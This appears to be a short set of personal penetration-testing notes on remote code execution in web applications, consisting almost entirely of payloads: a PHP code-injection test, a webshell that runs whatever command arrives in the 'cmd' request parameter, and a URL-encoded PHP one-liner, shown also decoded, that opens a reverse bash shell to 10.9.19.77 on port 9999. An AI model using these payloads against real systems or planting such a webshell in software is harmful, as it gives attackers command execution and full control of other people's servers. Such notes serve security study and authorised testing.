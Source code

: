 #WebExploitation 
RCE is a broad term that's applied to vulnerabilites that allow an attacker to execute arbitrary commands on the host operating system via the vulnerable applicatoin. This can also de done by injection of code into the webapp
![[RCE.JPG]]
*PHP code injection*
```php
<?PHP phpinfo(); ?>
```
```php
<?php   
$output = shell_exec('command');   
echo "<pre>$output</pre>";   
?>
```
Simple php webshell that executes the command passed in the GET cmd parameter 
```php
<?php  
  
if(isset($_REQUEST['cmd'])){  
        echo "<pre>";  
        $cmd = ($_REQUEST['cmd']);  
        system($cmd);  
        echo "</pre>";  
        die;  
}  
  
?>
```
Php one liner to open a reverse shell
```php
$(php+-r+'$sock%3dfsockopen("10.9.19.77",9999)%3b$proc%3dproc_open("/bin/bash",+array(0%3d>$sock,+1%3d>$sock,+2%3d>$sock),$pipes)%3b')
```
Decoded version
```php
$(
    php -r '
        $sock=fsockopen("10.9.19.77",9999);
        $proc=proc_open("/bin/bash", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
    '
)
```